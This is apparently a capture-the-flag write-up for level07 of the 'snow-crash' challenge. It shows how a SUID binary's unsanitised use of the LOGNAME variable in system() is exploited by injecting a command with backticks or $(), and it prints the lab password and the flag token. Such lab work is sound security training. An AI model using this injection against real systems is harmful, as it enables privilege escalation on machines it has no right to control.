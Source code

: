### TLTR;
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level07
level07@192.168.1.64's password: wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$ export LOGNAME="\`getflag\`"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
***

Login as `level07`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level07
level07@192.168.1.64's password: wiok45aaoguiboiki2tuin6ub
```
An `SUID` executable is located in home directory.
```shell
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
Seems to print executable name `argv[0]`?
```shell
level07@SnowCrash:~$ ./level07
level07
```
Use `ltrace` to intercept dynamic library calls and system calls executed by the program.
```gdb
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid() = 2007
geteuid() = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME") = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff48, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 0
+++ exited (status 0) +++
```
Programs calls `getenv()` which searches the environment list to find the environment variable `LOGNAME`.

Change environment variable `LOGNAME` with command substitution by escaping backticks if using with double quotes.
```shell
level07@SnowCrash:~$ export LOGNAME="\`getflag\`"
#level07@SnowCrash:~$ export LOGNAME='`getflag`'
#level07@SnowCrash:~$ export LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
